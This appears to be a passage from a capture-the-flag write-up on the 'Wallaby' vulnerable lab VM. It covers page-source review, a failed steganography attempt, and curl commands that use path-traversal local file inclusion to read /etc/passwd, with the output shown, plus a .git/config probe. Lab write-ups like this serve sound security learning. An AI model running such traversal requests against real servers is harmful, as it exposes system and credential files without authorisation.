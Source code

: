 We took a look at the source, and it's very similar to the landing page.

{{< highlight markdown >}}
<html><head><title>Wallaby's Server</title>
...
</head><body><p style="text-align:center;">What the heck is this?  Some guy named <em>ctlfish
</em> is trying to penetrate my server?  Loser must not know I'm the great Wallaby!</p>
<br><p style="text-align:center;">Let's <strong><em>observe</em></strong> him for now, maybe I could learn about him from his behavior. <br>
<img src="/eye.jpg"></p></body></html>
{{< / highlight >}}

We grabbed the image and "Giuseppe" and "SteveyDevey" examined it with strings and tried some brute force attacks with steghide, but it turned out to be a dead end.

I continued manually exploring via the form, and started to see some interesting things. When I tried a local file inclusion to grab /etc/passwd, I got a snarky response from wallaby.

{{< highlight markdown >}}
root@kali:~/src/wallaby# curl  http://wallaby/?page=../../../etc/passwd
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
walfin:x:1000:1000:walfin,,,:/home/walfin:/bin/bash
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false
steven?:x:1001:1001::/home/steven?:/bin/bash
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
root@kali:~/src/wallaby# 
{{< / highlight >}}

We also tried a different file inclusion, with a URL we discovered via dirb, and got a different snarky message, which also changed the behavior of the machine!

{{< highlight markdown >}}
root@kali:~/src/wallaby# curl target/?page=.git/config
...
<h2>That's some fishy stuff you're trying there <em></em>buddy.  You must think Wallaby codes like a monkey!  I better get to securing this SQLi though...</h2>
         <br />(Wallaby caught you trying an LFI, you gotta be sneakier!  Difficulty level has increased.)
root@kali:~/src/wallaby# 
{{< / highlight >}}
